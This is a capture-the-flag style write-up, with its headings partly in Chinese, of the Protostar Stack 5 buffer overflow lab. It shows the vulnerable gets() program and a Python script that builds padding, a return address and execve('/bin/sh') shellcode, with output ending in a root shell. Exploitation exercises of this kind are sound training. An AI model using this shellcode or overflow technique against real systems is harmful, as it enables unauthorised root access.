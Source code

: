 # Protostar: Stack 5

Stack5 is a standard buffer overflow, this time introducing shellcode.

This level is at `/opt/protostar/bin/stack5`.

> **Hints**
>
> - At this point in time, it might be easier to use someone elses shellcode
> - If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger
> - remove the int3s once your shellcode is done.

### Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```



## 攻击目标

使程序执行指定shellcode：`/bin/sh`。



## 攻击过程

```shell
$ cat stack5_shellcode.py
buffer = ""
for i in range(0x41, 0x54):
	buffer += chr(i) * 4
ret = "\x30\xfd\xff\xbf" #0xbffffd30 esp+4
payload = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"	#Linux x86 execve("/bin/sh")
print buffer + ret + payload
$ python stack5_shellcode.py
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS # 后接一堆乱码
$ (python stack5_shellcode.py; cat) | /opt/protostar/bin/stack5
id
uid=0(root) gid=0(root) groups=0(root)
```
